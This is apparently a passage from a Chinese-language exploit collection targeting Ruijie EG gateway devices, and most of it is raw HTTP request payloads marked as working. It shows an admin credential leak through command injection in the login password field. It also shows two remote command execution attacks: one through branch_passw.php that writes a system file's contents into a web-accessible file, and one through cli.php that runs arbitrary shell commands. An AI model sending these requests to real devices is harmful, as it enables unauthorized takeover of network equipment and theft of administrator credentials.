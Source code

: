 ```
/webui/?g=aaa_portal_auth_local_submit&suffix=
/webui/?g=sys_dia_data_down&file_name=
/webui/?g=sys_dia_data_check&file_name=
...
```

#### 锐捷 EG 易网关

##### 管理员账号密码泄露 ✅

获取账号密码：

```
POST /login.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin&password=admin?show+webmaster+user
```

##### branch_passw.php 远程命令执行 ✅

发送请求包：

```
POST /itbox_pi/branch_passw.php?a=set HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 41
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=52222egp72ilkpf2de7qbrigk3;user=admin;
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

pass=|cat /etc/psswd>../test_test.txt
```

再访问：

```
http://your-ip/test_test.txt
```

##### cli.php 远程命令执行 ✅

发送请求包：

```
POST /cli.php?a=shell HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=nk5erth9i0pvcco3n7fbpa9bi0;user=admin; 
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

notdelay=true&command=id
```
